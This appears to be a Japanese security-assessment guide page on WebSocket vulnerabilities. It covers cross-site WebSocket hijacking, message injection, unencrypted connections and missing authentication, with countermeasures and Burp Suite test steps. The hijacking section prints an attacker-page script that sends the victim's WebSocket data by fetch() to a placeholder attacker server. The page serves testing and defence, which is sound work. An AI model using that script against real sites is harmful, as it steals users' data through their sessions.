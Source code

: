 # WebSocket

## 概要
WebSocketは、クライアントとサーバー間で双方向通信を可能にする通信プロトコルです。HTTPとは異なり、WebSocketでは接続が確立された後、クライアントとサーバー間で自由にデータを送受信することが可能です。そのような特性から、リアルタイム性の高い機能を実装する際に広く利用されています。この章ではWebSocketに関する一般的な脆弱性や攻撃手法を一部例に挙げ、診断手法および対策を記載します。

## 診断観点
### Cross-site WebSocket hijacking (CSWSH)
Cross-site WebSocket hijacking (CSWSH)とは、攻撃者がユーザーのWebSocket接続を不正に利用する攻撃手法です。WebSocketにおけるCSRF脆弱性ともいえます。WebSocket接続における正当性の検証がCSRFトークンや同等のセキュリティ対策が行われず、セッションCookieのみに依存する場合に発生する可能性があります。また、WebSocket通信ではSame-Origin Policy（SOP）が適用されないため、サーバーがOriginヘッダーを適切に検証しない場合、異なるオリジンからの不正な接続を許可してしまうことも原因の一つです。

#### 攻撃の流れ
1. 攻撃者は悪意のあるWebページを用意
攻撃者は、以下のようなスクリプトを含む悪意のあるWebページを作成します。
    ```
    // ターゲットへのWebSocket接続を確立
    const ws = new WebSocket('wss://[target-server]/socket');
    ws.onopen = function() {
        ws.send('payload'); // ペイロードを送信
    };
    ws.onmessage = function(event) {
        // データを攻撃者のサーバに送信
        fetch('https://[attacker-serer]/log', { 
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    ```

2. ユーザーが悪意のあるページへアクセス
ユーザーが攻撃者のWebページを開くと、スクリプトが実行され、ユーザーのセッションを使ってターゲットのWebSocketエンドポイントへの接続を確立します。このとき、被害者がターゲットへの認証済みであることを前提とします。

3. 不正な操作が実行される
WebSocket通信が確立されると、攻撃者のスクリプトによってWebSocketを経由した不正なデータの送受信が可能になります。

### 入力検証不備とメッセージインジェクション
HTTPと同様にWebSocket通信においても入力データの検証が不十分な場合、攻撃者はWebSocketメッセージ内に悪意あるペイロードを混入させ、サーバまたは他のクライアントに対するインジェクション攻撃を実行できます。例えば、JSONメッセージ中のパラメータに悪意のあるクエリやスクリプトを埋め込むことで、SQLインジェクションやクロスサイトスクリプティング（XSS）、コードインジェクションなどを誘発する可能性があります。加えて、WebSocketはリアルタイム性を持つ常時接続の双方向通信プロトコルであるという性質上、攻撃が非常に速いペースで展開されやすく、特にサーバから他のクライアントへのブロードキャスト機能がある場合には、一人の攻撃者の悪意あるデータが複数ユーザーに伝播し、被害が急速に拡大する恐れがあります。WebSocketを利用するアプリケーションでは、入力データをサーバー側で厳密に検証し、適切な処理を行っているか確認する必要があります。

### 暗号化
WebSocket通信は、接続開始時のWebSocketハンドシェイクにおいてはHTTPが使われますが、接続確立後、TCPベースの双方向通信に切り替わります。HTTPと同様に暗号化されていない通信（`ws://`）とSSL/TLSによる暗号化通信（`wss://`）が用意されています。
暗号化されていない`ws://`接続では、通信内容が平文で送受信されるため、中間者攻撃（MITM）によって攻撃者に通信内容を盗聴される恐れがあります。

### 認証・セッション管理の欠如
WebSocketプロトコル自体には独自の認証・認可の仕組みがありません。そのため認証やセッション管理はアプリケーション側で適切に設計する必要があります。実装が不十分な場合、通常はログイン後にしか利用できないWebSocketエンドポイントに対し、未認証の状態でもWebSocket機能へアクセスできる恐れがあります。他にも、セッション確立後にログアウトしてもWebSocket接続が生き続ける場合もセッション管理上の問題となります。

## 事例紹介
- https://nvd.nist.gov/vuln/detail/CVE-2024-26135
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-1403
- https://jvn.jp/jp/JVN50850706/


## 対策
- Originヘッダの検証
    -  WebSocket通信でのSOPはブラウザのOriginヘッダー送信に依存しているため、サーバー側でその値を検証することが重要です。
    -  ただし、任意の変更が可能であるため、完全に信頼せず、他の対策と併用する必要があります。
- CSRFトークンによる正当性確認
    - セッションCookieに基づく認証だけでは、攻撃者が正規ユーザーのセッションを悪用し、不正なWebSocket接続を確立できる場合があります。そのため、通信に推測不可能なランダムな値を付与して検証し、正当な通信であるか判定する必要があります。
- WSSの使用
    - 常にセキュアなWebSocket (`wss://`) を使用し、通信をTLSで暗号化します。サーバー側で有効な証明書を設定してHTTPS上でWebSocketを提供し、クライアントにも`wss://`で接続させるようにします。またサーバー側の実装においても、TLS接続でないWebSocketのハンドシェイクリクエストは拒否することが望ましいです。
- 認証トークン（JWT）の利用
- メッセージの検証
- 認証認可周り

## 診断方法
ここでは、BurpSuiteを用いたCSWSHの診断手法の一例をご紹介します。
WebSocket接続のハンドシェイクを改ざんし、サーバ側の検証が適切に行われているか確認します。

1. Websocket接続の確立
WebSocket通信が発生する対象画面にアクセスし、`Proxy`→`HTTP history`を確認します。該当するハンドシェイクリクエストを確認し、ステータスコードが101（Switching Protocol）となっていることを確認してください。

2. WebSocketメッセージ
`Proxy` → `WebSockets history`タブで通信内容を確認し、クライアントからサーバに対するメッセージを選択しRepeaterに送ります。

3. 接続試行
Repeater画面で編集アイコンをクリックするとBurpが記録したWebSocket接続が一覧表示されます。この中から対象のWebSocket接続を選択し、`Clone`を実行します。
`Clone`を行うと、既に確立されたWebSocket接続のハンドシェイクが編集可能な状態で複製され、ウインドウに表示されます。ヘッダ等を任意に変更したうえで`Connect`をクリックすると、その内容でWebSocket接続を再試行できます。

![image1](./websocket_image1.png)

このとき、例として以下の様なテストを実施できます。
- `Origin`ヘッダの改ざん
- CSRFトークンや対策に使用しているヘッダ等の有無、妥当性の検証
- `X-Forwarded-For`ヘッダの追加によるIPアドレス偽装

アプリケーションロジックやWebSocketの認証・認可処理の実装に応じてテストを行い、サーバがセッション情報（Cookie等）のみを根拠にWebSocket接続を許可していないか、またはオリジン検証が適切かを確認してください。
サーバ側で適切な対策がされていない場合、ハンドシェイクが成功し、WebSocket接続が確立します。そのままメッセージの送受信が可能であれば、CSWSHのリスクが高いと判断できます。

#### 拡張機能
https://github.com/snyk/socketsleuth


## 参考
- https://portswigger.net/web-security/websockets
- https://portswigger.net/burp/documentation/desktop/testing-workflow/websockets/manipulating-websocket-handshakes
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://github.com/snyk/socketsleuth
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://book.hacktricks.xyz/v/jp/pentesting-web/websocket-attacks
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://appcheck-ng.com/cross-site-hijacking/
- https://devcenter.heroku.com/ja/articles/websocket-security
